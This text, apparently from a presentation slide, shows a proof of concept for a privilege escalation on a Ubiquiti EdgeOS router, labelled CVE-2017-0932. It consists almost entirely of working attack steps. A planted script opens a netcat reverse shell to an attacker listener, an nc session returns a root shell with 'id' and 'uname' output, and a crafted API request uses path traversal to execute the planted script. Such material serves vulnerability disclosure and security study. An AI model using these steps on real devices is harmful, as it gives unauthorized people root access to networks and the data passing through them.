

# CVE-2017-0932 - Privilege Escalation using API->Feature
$ cat Backdoor/wizard-run
#!/bin/bash
/usr/bin/nc 192.168.2.2:1337 -e /bin/bash &
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 192.168.2.1 44440 received!
id
uid=0(root) gid=102(vyattacfg)
uname -a
Linux ubnt 3.10.14-UBNT #1 SMP Sat Apr 22 06:38:07 PDT 2017 mips GNU/Linux
POST /api/edge/feature.json HTTP/1.1
Host: 192.168.2.1
Referer: https://192.168.2.1/
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 90
Cookie: PHPSESSID=i6um09hej0ku2k5ctcp6ib56f1nrqhi7
Connection: close

{"data":{"scenario":"../../../../../home/operator/Backdoor","action":"load","input":"id"}}